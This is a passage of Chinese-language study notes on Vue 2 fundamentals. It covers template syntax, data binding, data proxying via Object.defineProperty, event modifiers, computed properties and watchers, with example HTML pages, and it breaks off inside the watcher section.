







# Vue全家桶

## Vue2

### 一、vue基础

#### 1.1 Vue简介

##### 1.1.1. 官网

- [英文官网](https://vuejs.org/)
- [中文官网](https://cn.vuejs.org/)

##### 1.1.2. vue介绍

- Vue 是一套用来动态【构建用户界面】的【渐进式】JavaScript框架
  * 构建用户界面：把数据通过某种办法变成用户界面
  * 渐进式：Vue可以自底向上逐层的应用

    > 简单应用只需要一个轻量小巧的核心库
    >
    > 复杂应用可以引入各式各样的Vue插件


##### 1.1.3. Vue 的特点

1. 遵循MVVM模式
2. 编码简洁，体积小，运行效率高，适合移动/PC端开发
3. 它本身只关注 UI，可以引入其它第三方库开发项目
4. 采用【组件化】模式，提高代码复用率、且让代码更好维护


5. 【声明式】编码，让编码人员无需直接操作DOM，提高开发效率


6. 使用虚拟DOM 和 Diff算法，尽量复用DOM节点


##### 1.1.4. 与其它 JS 框架的关联

1. 借鉴 Angular 的模板和数据绑定技术
2. 借鉴 React 的组件化和虚拟 DOM 技术

##### 1.1.5. Vue 周边库

1. vue-cli: vue 脚手架
2. vue-resource
3. axios
4. vue-router: 路由
5. vuex: 状态管理
6. element-ui: 基于 vue 的 UI 组件库(PC 端)


#### 1.2 初识Vue

1. 想让Vue工作，就必须创建一个【Vue实例】，且要传入一个配置对象

2. root 容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法

3. root 容器里的代码被称为【**Vue模板**】

4. 注意区分：js表达式 和 js代码（语句）

   * 表达式：一个表达式会产生一个值，可以放到任何一个需要值的地方：

     > (1). a
     >
     > (2). a+b
     >
     > (3). demo(1)  函数调用,有返回值
     >
     > (4). x===y ? 'a' : 'b'

   * js代码 (语句):控制代码走向

     > (1). if( ){ } 判断语句
     >
     > (2). for( ){ }  循环语句

5. Vue 实例与容器是【一一对应】的

6. 真实开发中只有一个Vue实例，并且会配合着组件一起使用

7. `{{xxx}}`中的 xxx 要写 `js 表达式`，且 xxx 可以自动读取到data中的所有属性

8. 一旦data中的数据发生变化，那么模板中用到该数据的地方也会自动更新(Vue实现的响应式)

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>初识Vue</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <!-- 容器作用：为Vue提供模板，让Vue解析的数据知道往哪放 -->
    <div class="root">
      <h1>Hello,{{name.toUpperCase()}},{{address}}</h1>
      <!--{{插值语法}}
        {{}}中只能写js表达式
        toUpperCase() 是插值语法中的一种
      -->
    </div>

    <script>
      Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示

      //创建Vue实例
      new Vue({
        el: '.root', //el用于指定当前Vue实例为哪个容器服务，值`通常`为css选择器字符串。
        // el:document.getElementById('root') //为什么是通常，因为有另一个写法，但一般不用。
        data: {
          // data中用于存放数据，数据供el所指定的容器使用,值我们暂时先写成一个对象
          name: 'xiaojIng',
          address: '北京',
        },
      })
    </script>
  </body>
</html>
```


#### 1.3 模板语法

`Vue模板`语法有2大类:

* **插值语法：**

1. 功能：用于解析`标签体`内容
2. 写法：`{{xxx}}`，xxx是【js表达式】，且可以直接读取到data中的所有属性
* **指令语法:**

1. 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件…）
2. 举例：`v-bind:href="xxx" `或 简写为 `:href="xxx"`，xxx同样要写【js表达式】，且可以直接读取到data中的所有属性(把xxx中的数据当成js表达式来看)
3. 备注：Vue中有很多的指令，且形式都是 v-xxx，此处只是拿v-bind举例

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>模板语法</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备一个容器 -->
    <div id="root">
      <h1>插值语法</h1>
      <hr />
      <p>你好，{{name}}</p>
      <h1>指令语法</h1>
      <a v-bind:href="school.url.toUpperCase()" x="hello"
        >点我去{{school.name}}学习1</a
      ><br />
      <a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
    </div>
    <script>
      Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示

      //创建Vue实例
      new Vue({
        el: '#root',
        data: {
          school: {
            name: '尚硅谷',
            url: 'http://www.atguigu.com',
          },
          name: 'jack',
          hello: '你好',
        },
      })
    </script>
  </body>
</html>
```


#### 1.4 数据绑定

Vue中有2种数据绑定的方式：

* 单向绑定(v-bind)：数据只能从data流向页面(页面中被绑定的容器数据改变不会影响data的值)
* 双向绑定(v-model)：数据不仅能从data流向页面，还可以从页面流向data

**备注:**

> 1.双向绑定一般都应用在表单类元素上（如：input、select等）
>
> 2.v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>数据绑定</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备一个容器 -->
    <div id="root">
      <div id="root">
        <!-- 普通写法 -->
        <!-- 单向数据绑定:
        <input type="text" v-bind:value="name" /> <br />
        双向数据绑定:
        <input type="text" v-model:value="name" /> <br /> -->

        <!-- 简写 -->
        单向数据绑定:
        <input type="text" :value="name" /> <br />
        双向数据绑定:
        <input type="text" v-model="name" /> <br />

        <!-- 下列代码是错误的，因为v-model只能应用在表单类元素(输入类元素有【value值的】)上 -->
        <!-- <h2 v-model:x="name">你好啊</h2> -->
      </div>
    </div>
    <script>
      Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示
      new Vue({
        el: '#root',
        data: {
          name: '尚硅谷',
        },
      })
    </script>
  </body>
</html>
```


#### 1.5 el和data的两种写法

1. el有2种写法

* 创建Vue实例对象的时候配置el属性
* 先创建Vue实例，随后再通过 `vm.$mount(‘#root’)`指定el的值
2. data有2种写法

* 对象式：data： { }
* 函数式：data() { return { } }
* **如何选择：**目前哪种写法都可以，以后到组件时，data必须使用函数，否则会报错

3. 一个重要的原则

* 由Vue管理的函数(eg:data函数)，一定不要写箭头函数，否则 this 就不再是Vue实例了,而是window

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>el和data的两种写法</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h1>你好，{{name}}</h1>
    </div>
    <script>
      Vue.config.productionTip = false

      //   el的两种写法
      /* const v = new Vue({
        // el: '#root', //第一种
        data: {
          name: '尚硅谷',
        },
      })
      console.log(v)
      v.$mount('#root') //第二种 */

      //   data的两种写法
      new Vue({
        el: '#root',
        // data的第一种写法：对象式
        /* data:{
            name:'尚硅谷'
        } */

        //data的第二种写法：函数式(组件必须用)
        // data: function (){} 可以简写为data(){}
        data: function () {
          console.log('@@@', this) //此处的this是Vue实例对象(限于普通函数)；如果写成箭头函数，this就是window
          return {
            name: '尚硅谷',
          }
        },
      })
    </script>
  </body>
</html>
```


#### 1.6 MVVM模型

1. M：模型(`Model`) ：对应 data 中的【数据】
2. V：视图(`View`) ：模板 (dom => 页面 =>模板)
3. VM：视图模型(`ViewModel`) ： Vue 实例对象（相当于数据和页面的连接桥梁）

**注意:**

- `data`中所有的属性，最后都出现在了`vm`身上
- `vm`身上所有的属性 及`Vue原型`身上所有的属性，在 Vue模板中都可以直接使用

```html
 <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h1>学校名称：{{name}}</h1>
      <h1>学校地址：{{address}}</h1>
      <h1>测试一下：{{$options}}</h1>
    </div>
    <script>
      Vue.config.productionTip = false

      const vm = new Vue({
        el: '#root',
        data: {
          name: '尚硅谷',
          address: '成都',
        },
      })
      console.log(vm)
    </script>
  </body>
```


#### 1.7 数据代理

##### 1.7.1 Object.defineproperty( )

建议学习文章地址：

https://zh.javascript.info/property-descriptors

https://zh.javascript.info/property-[accessors](https://so.csdn.net/so/search?q=accessors&spm=1001.2101.3001.7020)

**Object.defineProperty**(obj, prop, descriptor)

> obj：要定义属性的对象。
>
> prop：要定义或修改的属性的名称
>
> descriptor：要定义或修改的属性描述符

**属性标志:**

对象属性（properties），除 `value `外，还有三个特殊的特性（attributes），也就是所谓的“标志”

* `writable` — 如果为 `true`，则值可以被修改，否则它是只可读的,默认为false
* `enumerable` — 如果为 `true`，则表示是可以遍历的，,默认为false,可以在for… .in Object.keys()中遍历出来
* `configurable` — 如果为 `true`，则此控制属性可以被删除，默认值是false

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>回顾Object.defineproperty方法</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <script>
      let number = 18
      let person = {
        name: '张三',
        // age: '18',
        sex: '男',
      }
      /* Object.defineProperty(添加属性的对象,'添加的属性名',配置项) 更高级
          * 由该方法添加的属性不参与枚举(遍历)
         Object.keys(对象名) 把对象中所有属性的值一起存放到数组中

       */

      Object.defineProperty(person, 'age', {
        // 相当于person对象的age属性值是现用现取的
        // value: 18,
        // enumerable: true, //控制属性是否可以枚举，默认值是false
        // writable: true, //控制属性是否可以修改，默认值是false
        // configurable: true, //控制属性是否可以删除，默认值是false

        // 当有人读取person的age属性时，get函数(getter)就会被调用，且返回值是age的值
        get: function () {
          console.log('有人读取age属性了')
          return number
        },

        // 当有人读取person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值(value)；修改number不会生效，因为setter里面没有number
        set(value) {
          console.log('有人修改了age属性,且值为', value)
          number = value
        },
      })
      console.log(person)
      console.log(Object.keys(person))
    </script>
  </body>
</html>
```

##### 1.7.2 Vue中的数据代理

**数据代理：**通过一个对象 代理对另一个对象中属性的操作(读/写)

```html
<script>
      let obj1 = { x: 100 }
      let obj2 = { y: 200 }
      Object.defineProperty(obj2, 'x', {
        get() {
          // 读取后调用，返回obj1的x属性
          return obj1.x
        },
        set(value) {
          obj1.x = value
        },
      })
```

1. Vue中的数据代理通过vm对象来代理data对象中属性的操作（读/写）

   > 相当于vm对象中存储了data对象的‘备份’，可以通过这个备份直接绑定data中的数据

2. Vue中数据代理的好处：更加方便的操作data中的数据

3. 基本原理

   * 通过`object.defineProperty()`把 `data对象`中所有属性添加到`vm`上
   * 为每一个添加到vm上的属性，都指定一个 `getter`,`setter`
   * 在`getter`,`setter`内部去操作（读/写）data中对应的属性


4.解读

`Vue` 将 `data`中的数据拷贝了一份到 `_ data`属性中，又将`_ data`里面的属性提到`Vue实例`中（如name），通过`defineProperty`实现数据代理，这样通过`geter/setter`操作 name，进而操作`_data`中的 name。而`_data`又对data进行数据劫持，实现响应式（修改data的数据会实时更新dom（页面））。

> name被修改–>调用setter–>重新解析模板–>生成新的虚拟DOM–>新旧DOM对比（diff）–>更新页面


#### 1.8 事件处理

##### 1.8.1 事件的基本使用

1. 使用`v-on:xxx`或`@xxx`绑定事件，其中 xxx 是事件名
2. 事件的回调需要配置在`methods对象`中，最终会在vm上
3. methods中配置的函数，不要用箭头函数，否则 this 就【不是】vm了，而是window
4. methods中配置的函数，都是被 Vue所管理的函数，this 的指向是`vm`或`组件实例对象`
5. `@click="demo"`和`@click="demo($event,参数)"`效果一致，但后者可以传参

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>欢迎来到{{name}}学习</h2>
      <!-- <button v-on:click="showInfo">点我提示信息</button> -->
      <button @click="showInfo1">点我提示信息1(不传参)</button>
      <button @click="showInfo2(666,$event)">点我提示信息2(传参)</button>
    </div>
    <script src="../js/vue.js"></script>
    <script>
      Vue.config.productionTip = false
      new Vue({
        el: '#root',
        data: {
          //data里面的数据才会数据代理
          name: '尚硅谷',
        },
        methods: {
          //对象里面配方法
          showInfo1(event) {
            // alert('同学你好1')
            console.log(event.target.innerText)
            // console.log(this) //此处的this的vm
          },
          showInfo2(number, e) {
            console.log(number, e)
            // alert('同学你好11')
            // console.log(event.target.innerText)
            // console.log(this) //此处的this的vm
          },
        },
      })
    </script>
  </body>
```

##### 1.8.2 事件修饰符

1. `prevent` 阻止默认事件（常用）
2. `stop `阻止事件冒泡（常用）
3. `once `事件只触发一次（常用）
4. `capture` 使用事件的捕获模式
5. `self` 只有`event.target`是当前操作的元素时才触发事件
6. `passive` 事件的默认行为立即执行，无需等待事件回调执行完毕

* 修饰符可以【连续写】，比如可以这么用：`@click.prevent.stop="showInfo"`

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <style>
      * {
        margin-top: 20px;
      }
      .demo1 {
        height: 80px;
        background-color: skyblue;
      }
      .box1 {
        padding: 5px;
        background-color: skyblue;
      }
      .box2 {
        background-color: red;
      }
      .list {
        width: 200px;
        height: 200px;
        background-color: peru;
        /* 形成滚动条 */
        overflow: auto;
      }
      li {
        height: 100px;
      }
    </style>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>欢迎来到{{name}}学习</h2>
      <!-- 阻止默认事件（常用） -->
      <a href="http://www.atguigu.com" @click.prevent="showInfo"
        >点我提示信息</a
      >

      <!-- 阻止事件冒泡（常用）：冒泡(先内后外) -->
      <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息</button>
      </div>
      <!-- 事件只触发一次（常用） -->
      <button @click.once="showInfo">点我提示信息</button>
      <!-- 使用事件的捕获模式:先外后内 -->
      <div class="box1" @click.capture="showMsg(1)">
        div1
        <div class="box2" @click="showMsg(2)">div2</div>
      </div>

      <!-- 只有event.target是当前操作的元素时才触发事件,一定程度上也可以阻止冒泡 -->
      <div class="demo1" @click.self="showInfo">
        <button @click="showInfo">点我提示信息</button>
      </div>
    </div>

    <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕 -->
    <!-- 
        滚动事件:
        1.@scroll:滚动条滚动时触发(滚动鼠标滚轮/键盘上下移动)
        2.@wheel:鼠标滚动轮滚动时触发;鼠标滚动轮滚动一次可能px走了很远
     -->
    <ul class="list" @wheel.passive="demo">
      <li>1</li>
      <li>2</li>
      <li>3</li>
      <li>4</li>
    </ul>
    <script>
      Vue.config.productionTip = false
      new Vue({
        el: '#root',
        data: {
          name: '尚硅谷',
        },
        methods: {
          showInfo(e) {
            alert('你好')
            // console.log(e.target)
          },
          showMsg(msg) {
            console.log(msg)
          },
          demo() {
            for (let i = 0; i < 1000; i++) {
              console.log('#')
            }
            console.log('die了')
          },
        },
      })
    </script>
  </body>
</html>
```

##### 1.8.3 键盘事件

> 键盘上的每个按键都有自己的【名称】和【编码】，例如：Enter（13）。而Vue还对一些常用按键起了别名方便使用

1. Vue中常用的按键【别名】

* 回车=>`enter`
* 删除=>`delete`(捕获“删除(`DELETE`)”和“退格(`BACKSPACE`)”键)
* 退出=>`esc`
* 空格=>`space`
* 换行=>`tab`(特殊，必须配合`keydown事件`去使用)
* 上=>`up`
* 下=>`down`
* 左=>`left`
* 右=>`right`

2. Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（多单词【小写短横线写法】

   > NumLock(num-lock) 
   >
   > CapsLock(caps-lock)）

3. 系统修饰键**（用法特殊）**ctrl、alt、shift、meta（meta就是win键）

* 配合keyup使用：按下修饰键的同时，再按下其他键(任意键)，随后释放其他键，事件才被触发


  > 指定 ctrl+y 使用 @keyup.ctrl.y

* 配合keydown使用：正常触发事件

4. 也可以使用keyCode去指定具体的按键**（不推荐）**

   > @keyup.13=xxx(@keyup.enter=xxx)

5. `Vue.config.keyCodes.自定义键名 = 键码`，可以去定制按键别名


#### 1.9 计算属性

##### 1.9.1 姓名案例（插值语法实现）

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br />
      名: <input type="text" v-model="lastName" /> <br />
      全名：<span>{{firstName}}-{{lastName}}</span>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        firstName: '张',
        lastName: '三',
      },
    })
  </script>
</html>
```

##### 1.9.2 姓名案例（methods实现）

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br />
      名: <input type="text" v-model="lastName" /> <br />
      全名：<span>{{fullName()}}</span>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        firstName: '张',
        lastName: '三',
      },
      methods: {
        fullName() {
          // 只要data的数据发生改变，vue就会重新解析模板，重新解析模板时只要遇到了插值语法里面的方法，该方法一定会重新调用的
          console.log('@---fullName')
          return this.firstName + '-' + this.lastName
        },
      },
    })
  </script>
</html>
```

##### 1.9.3 姓名案例（计算属性实现）

* 定义：要用的属性不存在，要通过【已有属性计算】得来

* 原理：底层借助了`Objcet.defineProperty`方法提供的getter和setter

* **getter**
  1. get作用？
    * (1).当有人读取该计算属性时，get就会被调用，且返回值就作为该计算属性的值 

  1. get函数什么时候执行？

    * (1).初次读取时会执行一次(第一次读取后有缓存)
    * (2).当`依赖的数据`发生改变时会被再次调用


* 优势：与methods实现相比，【内部有缓存机制】（复用），效率更高，调试方便

* 备注：

  1. 计算属性最终会出现在`vm`上，直接读取使用即可

  2. 如果计算属性要被修改，那必须写【set函数】去响应修改，且set中要引起计算时依赖的数据发生改变（否则无意义）

     > set不是必须写的

  3. 如果计算属性确定【不考虑修改】，可以使用计算属性的简写形式

> 完整写法

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br />
      名: <input type="text" v-model="lastName" /> <br />
      全名：<span>{{fullName}}</span>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      // vue认为data里面的数据都是属性
      data: {
        firstName: '张',
        lastName: '三',
      },
      methods: {
        demo() {},
      },
      // data和methods里面的数据都是直接放到vm上

      // 计算属性
      // 调用fullName时，自动调用get函数,把get函数的返回值放到vm上
      computed: {
        fullName: {
          /* get作用？
          1. 当有人读取fullName时，get就会被调用，且返回值就作为fullName的值 
          */
          /* get什么时候调用?
          1. 初次读取fullName时(第一次读取后有缓存)
          2. 所依赖的数据(firstName + lastName)发生变化时
          */
          get() {
            // console.log(this) //这里的this是vm
            console.log('被调用了')
            return this.firstName + '-' + this.lastName
          },
          // set不是必须写的
          /* set什么时候调用?
          1. fullName的值被修改时调用
          2. 返回修改后的值，如果不把修改后的值与原数据关联起来，那原本的数据不会改变
          */
          set(value) {
            console.log('set', value)
            const arr = value.split('-')
            this.firstName = arr[0]
            this.lastName = arr[1]
          },
        },
      },
    })
  </script>
</html>
```

> 简写

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br />
      名: <input type="text" v-model="lastName" /> <br />
      全名：<span>{{fullName}}</span>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      // vue认为data里面的数据都是属性
      data: {
        firstName: '张',
        lastName: '三',
      },

      // 计算属性
      computed: {
        // 只会读不会改时可以简写
        // 相当于fullName函数起了getter的作用
        fullName() {
          console.log('被调用了')
          return this.firstName + '-' + this.lastName
        },
      },
    })
  </script>
```

##### 1.9.4 method和computed区别

* 如果只使用一次，其实没什么区别。
* 使用多次的时候，method每次都会重新调用，而computed会从缓存中读取。


#### 1.10 侦听属性

##### 1.10.1 method方法实现

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>今天天气很{{info}}</h2>
      <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
      <!-- <button @click="isHot = !isHot">切换天气</button> -->
      <button @click="changeWeather">切换天气</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        isHot: true,
      },
      computed: {
        info() {
          return this.isHot ? '炎热' : '凉爽'
        },
      },
      methods: {
        changeWeather() {
          this.isHot = !this.isHot
        },
      },
    })
  </script>
```

##### 1.10.2 watch实现

侦听属性watch：

- 当被监视的属性`变化`时, 回调函数【自动调用】（handler）, 进行相关操作
- 监视的属性【必须存在】，才能进行监视！既可以监视`data`，也可以监视【计算属性】
- 配置项属性`immediate:false`，改为 `true`，则初始化时调用一次 `handler(newValue,oldValue)`,相当于立即执行
- 监视的两种写法：
  * (1).new Vue时传入`watch配置`
  * (2).通过`vm.$watch`监视

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>天气案例_监视属性</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>今天天气很{{info}}</h2>
      <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
      <!-- <button @click="isHot = !isHot">切换天气</button> -->
      <button @click="changeWeather">切换天气</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      data: {
        isHot: true,
      },
      computed: {
        info() {
          return this.isHot ? '炎热' : '凉爽'
        },
      },
      methods: {
        changeWeather() {
          this.isHot = !this.isHot
        },
      },
      // 监视属性
      // 1.方法1 * 如果很明确知道要监视谁，那用法1
